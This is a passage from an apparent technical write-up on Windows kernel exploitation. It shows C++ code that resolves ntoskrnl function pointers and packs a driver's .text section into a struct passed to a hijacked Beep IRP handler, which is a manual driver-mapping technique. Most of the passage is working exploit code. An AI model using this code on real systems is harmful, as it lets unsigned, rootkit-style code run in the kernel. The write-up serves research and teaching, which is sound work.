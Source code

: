 ```C++

	return STATUS_SUCCESS;
}

```

What is left to do in our exploit is to resolve some function pointers. Although Stong’s code also includes handling for relocations, this part was not required for my specific scenario. The reason for this is that all the code we need is contained within the `.text` section, meaning that there are no global variables or other external references that would necessitate handling relocations. This greatly simplifies the process, as it avoids the need for additional complexity related mind boggling relocations. Instead, we resolve the function pointers to ensure the correct execution flow and copy all the necessary addresses and the payload (i.e. the actual driver PE file's .text section) to a struct which we will finally pass to the beep IRP handler. 

```C++
// DriverIRP.h
typedef struct BeepIRPStruct {
	void* g_NtosKrnl;
	void (*nt_memcpy)(PVOID dst, PVOID src, SIZE_T len);
	void* (*nt_ExAllocatePoolWithTag)(ULONG PoolType, SIZE_T NumberOfBytes, ULONG Tag);
	NTSTATUS(*nt_PsCreateSystemThread)(PHANDLE ThreadHandle, ULONG DesiredAccess, void* ObjectAttributes, HANDLE ProcessHandle, void* ClientId, void* StartRoutine, PVOID StartContext);
	void* nt_IofCompleteRequest;
	SIZE_T szPayloadSize;
	BYTE bPayload[];
} BeepIRPStruct, pBeepIRPStruct;
```


```C++
BOOL CopyFunctionPointers() {

	PRINTA("[+] ------------------------------------------------------\n");
	PRINTA("[i] Calculating and Copying Function Pointers \n");

	DWORD64 dwNtosKrnlBase = g_NtosKrnl;
	
	if (!dwNtosKrnlBase)
	{
		PRINTA("Can't find address of ntoskrnl.exe\n");
		return -1;
	}

	PRINTA("[i] Kernel Base located at %p\n", dwNtosKrnlBase);


	// load ntoskrnl.exe library to retrieve function pointers for shellcode
	HMODULE hNtoskrnl = LoadLibraryExA("ntoskrnl.exe", NULL, DONT_RESOLVE_DLL_REFERENCES);
	if (!hNtoskrnl)
	{
		PRINTA("[!] Failed to map Ntoskrnl Dll");
		return -1;
	}

	PRINTA("[i] Ntoskrnl.exe Dll located at 0x%p\n", hNtoskrnl);

	g_BeepIRPShellcodeData->g_NtosKrnl = (void*)dwNtosKrnlBase;

	PVOID memcpy = (PVOID)GetProcAddress(hNtoskrnl, "memcpy");
	PRINTA("\t[V] --> GetProcAddress memcpy at %p\n", memcpy);
	g_BeepIRPShellcodeData->nt_memcpy = (PVOID)(dwNtosKrnlBase + (DWORD64)memcpy - (DWORD64)hNtoskrnl);
	PRINTA("\t[V] --> nt!memcpy at %p\n", g_BeepIRPShellcodeData->nt_memcpy);

```